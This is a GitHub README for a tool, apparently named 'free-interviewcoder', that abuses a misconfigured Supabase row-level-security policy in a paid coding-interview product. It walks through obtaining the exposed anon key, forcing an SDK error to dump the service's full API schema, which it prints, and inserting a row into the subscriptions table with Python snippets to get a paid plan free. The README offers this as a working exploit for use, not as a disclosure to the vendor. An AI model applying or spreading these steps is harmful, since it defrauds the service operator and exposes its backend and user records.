


# free-interviewcoder

vibe code for vibe code



## Usage

Find the `SUPABASE_URL` and `SUPABASE_KEY` and replace them in `.env`, then

```
uv run main.py
```

> if you don't want to use uv just `pip install supabase python-dotenv rich` and run `python main.py`

You can either provide a new email + password or use an existing account (must be registered via email + password).

## The exploit

> **tldr**: RLS misconfigured as usual

The signup endpoint exposes a supabase JWT - the "anon" key which is [supposedly "ok" for unauthenticated access](https://supabase.com/docs/guides/api/api-keys)



Now you can access the database via the `supabase` SDK, but access is limited. RLS is also enabled.

We would like to get more information on what tables are available, but this is simply [not supported via the SDK](https://github.com/orgs/supabase/discussions/27603#discussioncomment-9898742)

Instead, Supabase provides a Rest API layer over any database (using PostgREST) at `https://xxxxxxx.supabase.co/rest/v1` that comes with a Swagger doc and an OpenAPI spec. Alternatively, you can just get the SDK to throw an error by providing an erroneous operation like so:

```py
try:
    supabase.table('').select("*").limit(5).execute()
except Exception as exc:
    print(exc)
```

And the exception will display the spec. Here it is:

```yaml
swagger: "2.0"
info:
  description: ""
  title: "standard public schema"
  version: "12.2.3 (519615d)"
host: "xxxxxxxxxx.supabase.co:443"
basePath: "/"
schemes: ["https"]
consumes:
  - "application/json"
  - "application/vnd.pgrst.object+json;nulls=stripped"
  - "application/vnd.pgrst.object+json"
  - "text/csv"
produces:
  - "application/json"
  - "application/vnd.pgrst.object+json;nulls=stripped"
  - "application/vnd.pgrst.object+json"
  - "text/csv"

paths:
  /:
    get:
      summary: "OpenAPI description (this document)"
      produces: ["application/openapi+json", "application/json"]
      responses:
        200:
          description: "OK"
      tags: ["Introspection"]

  /subscriptions:
    get:
      summary: "Retrieve subscriptions"
      responses:
        200:
          description: "OK"
          schema:
            type: "array"
            items: { $ref: "#/definitions/subscriptions" }
        206:
          description: "Partial Content"
      tags: ["subscriptions"]
    post:
      summary: "Create a subscription"
      responses:
        201:
          description: "Created"
      tags: ["subscriptions"]
    delete:
      summary: "Delete subscriptions"
      responses:
        204:
          description: "No Content"
      tags: ["subscriptions"]
    patch:
      summary: "Update subscriptions"
      responses:
        204:
          description: "No Content"
      tags: ["subscriptions"]

  /feature_requests:
    get:
      summary: "Retrieve feature requests"
      responses:
        200:
          description: "OK"
          schema:
            type: "array"
            items: { $ref: "#/definitions/feature_requests" }
        206:
          description: "Partial Content"
      tags: ["feature_requests"]
    post:
      summary: "Create a feature request"
      responses:
        201:
          description: "Created"
      tags: ["feature_requests"]
    delete:
      summary: "Delete feature requests"
      responses:
        204:
          description: "No Content"
      tags: ["feature_requests"]
    patch:
      summary: "Update feature requests"
      responses:
        204:
          description: "No Content"
      tags: ["feature_requests"]

  /stripe_feedback:
    get:
      summary: "Retrieve Stripe feedback"
      responses:
        200:
          description: "OK"
          schema:
            type: "array"
            items: { $ref: "#/definitions/stripe_feedback" }
        206:
          description: "Partial Content"
      tags: ["stripe_feedback"]
    post:
      summary: "Create Stripe feedback"
      responses:
        201:
          description: "Created"
      tags: ["stripe_feedback"]
    delete:
      summary: "Delete Stripe feedback"
      responses:
        204:
          description: "No Content"
      tags: ["stripe_feedback"]
    patch:
      summary: "Update Stripe feedback"
      responses:
        204:
          description: "No Content"
      tags: ["stripe_feedback"]

  /rpc/increment_credits:
    get:
      summary: "Increment user credits"
      responses:
        200:
          description: "OK"
      tags: ["(rpc) increment_credits"]
    post:
      summary: "Increment user credits"
      responses:
        200:
          description: "OK"
      tags: ["(rpc) increment_credits"]

  /rpc/delete_auth_tokens:
    get:
      summary: "Delete auth tokens for a user"
      responses:
        200:
          description: "OK"
      tags: ["(rpc) delete_auth_tokens"]
    post:
      summary: "Delete auth tokens for a user"
      responses:
        200:
          description: "OK"
      tags: ["(rpc) delete_auth_tokens"]

  /rpc/get_pair_vote_count:
    get:
      summary: "Get vote count for a pair"
      responses:
        200:
          description: "OK"
      tags: ["(rpc) get_pair_vote_count"]
    post:
      summary: "Get vote count for a pair"
      responses:
        200:
          description: "OK"
      tags: ["(rpc) get_pair_vote_count"]

definitions:
  subscriptions:
    type: "object"
    required: ["id", "preferred_language"]
    properties:
      id: { type: "string", format: "uuid", description: "Primary Key" }
      user_id: { type: "string", format: "uuid" }
      stripe_customer_id: { type: "string", format: "text" }
      stripe_subscription_id: { type: "string", format: "text" }
      status:
        {
          type: "string",
          enum:
            [
              "active",
              "trialing",
              "past_due",
              "canceled",
              "incomplete",
              "incomplete_expired",
              "unpaid",
              "paused",
            ],
          default: "incomplete",
        }
      plan: { type: "string", format: "text" }
      current_period_start:
        { type: "string", format: "timestamp with time zone" }
      current_period_end: { type: "string", format: "timestamp with time zone" }
      cancel_at: { type: "string", format: "timestamp with time zone" }
      canceled_at: { type: "string", format: "timestamp with time zone" }
      created_at:
        {
          type: "string",
          format: "timestamp with time zone",
          default: 'timezone("utc", now())',
        }
      updated_at:
        {
          type: "string",
          format: "timestamp with time zone",
          default: 'timezone("utc", now())',
        }
      credits: { type: "integer", default: 50 }
      preferred_language: { type: "string", format: "text", default: "python" }

  feature_requests:
    type: "object"
    required: ["id"]
    properties:
      id: { type: "string", format: "uuid", description: "Primary Key" }
      user_id: { type: "string", format: "uuid" }
      command_arrow_importance: { type: "string", format: "text" }
      command_b_importance: { type: "string", format: "text" }
      ui_suggestions: { type: "string", format: "text" }
      other_feedback: { type: "string", format: "text" }
      created_at:
        {
          type: "string",
          format: "timestamp with time zone",
          default: "CURRENT_TIMESTAMP",
        }

  stripe_feedback:
    type: "object"
    required: ["id", "email", "country", "issue", "created_at"]
    properties:
      id: { type: "string", format: "uuid", description: "Primary Key" }
      email: { type: "string", format: "text" }
      country: { type: "string", format: "text" }
      issue: { type: "string", format: "text" }
      created_at:
        {
          type: "string",
          format: "timestamp with time zone",
          default: 'timezone("utc", now())',
        }
      user_id: { type: "string", format: "uuid" }
      status: { type: "string", format: "text", default: "pending" }

externalDocs:
  description: "PostgREST Documentation"
  url: "https://postgrest.org/en/v12/references/api.html"
```

At this point you should have enough information to insert a record to the `subscriptions` table to give yourself a free subscription.

To recap, the steps are:

1. Register or login

```py
# this step will give you the RLS clearance to insert a row, and is essentially the major "vulnerability"
_ = supabase.auth.sign_in_with_password(
    dict(
        email="...",
        password="...",
    )
)
```

2.

```py

data = {} # expected shape is above
supabase.table("subscriptions").insert(data).execute()
```

## Disclaimer

[DISCLAIMER](DISCLAIMER.md)
